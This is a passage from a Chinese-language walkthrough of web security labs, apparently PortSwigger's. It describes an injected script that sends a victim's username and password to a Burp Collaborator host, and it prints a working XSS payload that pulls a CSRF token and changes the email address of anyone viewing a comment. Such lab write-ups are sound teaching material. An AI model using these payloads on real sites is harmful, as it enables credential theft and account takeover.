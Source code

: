



这段js脚本包含了两个输入框，一个是用户名的输入框，另一个是密码的输入框。当密码输入框的值发生改变时（onchange事件）会执行js代码。

其中使用了fetch函数发送了一个POST请求到Collaborator。请求的body部分使用了用户名和密码的组合进行拼接，并且使用冒号进行分隔。其中，用户名是通过username.value获取的，而密码是通过this.value获取的（即当前密码输入框的值）。





提交留言后，回到Collaborator，可以看到下方HTTP交互，脚本发送来的请求的内容是我们要的用户名和密码，然后冒充该用户登录。

![image-20250307103102579](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250307103102579.png)

















### 24.利用XSS执行CSRF

Exploiting XSS to bypass CSRF defenses





目的：执行CSRF攻击，并更改查看博客文章评论的人的电子邮件地址。



进入我的账户页面，查看源码会发现在登录表单中存在一个隐藏的 CSRF token，他会在登录表单提交时被携带。

![image-20250307103520675](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250307103520675.png)

在留言板提交这段js脚本：

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

```

这段js首先通过XMLHttpRequest对象发送了一个GET请求到/my-account页面，一旦请求完成，会调用handleResponse函数。
